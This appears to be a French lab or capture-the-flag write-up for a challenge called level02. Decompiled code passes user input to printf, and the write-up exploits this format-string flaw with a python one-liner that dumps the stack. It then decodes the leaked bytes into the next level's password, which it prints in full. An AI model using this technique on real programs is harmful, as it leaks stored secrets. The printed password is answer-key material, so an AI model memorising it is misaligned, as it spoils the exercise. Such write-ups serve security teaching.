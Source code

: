 Dans les sources:
  char s2[96];
  int v5;
  char ptr[48];
  char s[96];
  ...
  FILE *stream;
  ...
  stream = fopen("/home/users/level03/.pass", "r");
  v9 = fread(ptr, 1uLL, 0x29uLL, stream);
  fgets(s, 100, stdin);
  ...
  fgets(s2, 100, stdin);
  ...
  printf(s);

s2[96] est avant ptr[] (ou est stocke .pass) dans la memoire, on va tenter de print 96 'A' dans s2 et des '%x ' dans s[96] car s est envoye a printf

bash:

	> python -c "print '%p '*32 + '\n' + 'A'*96" | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4f0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0xfeff00 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520  does not have access!

On voit ou s'arrete notre s[] rempli de 'A' (0x41), on prend les 40 prochains bytes (apres notre dernier 0x4141..41 et on skip 0x100..0 et nil):
	0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
On les transforme en char (ecrits a l'envers donc '0x756e505234376848' en memoire = '4868373452506e75' soit 'Hh74RPnu' pour une lecture pour un humain)
	> python -c "print(''.join([bytes.fromhex(x).decode('ascii')[::-1] for x in '0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d'.split('0x') if x]))"
<<< Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H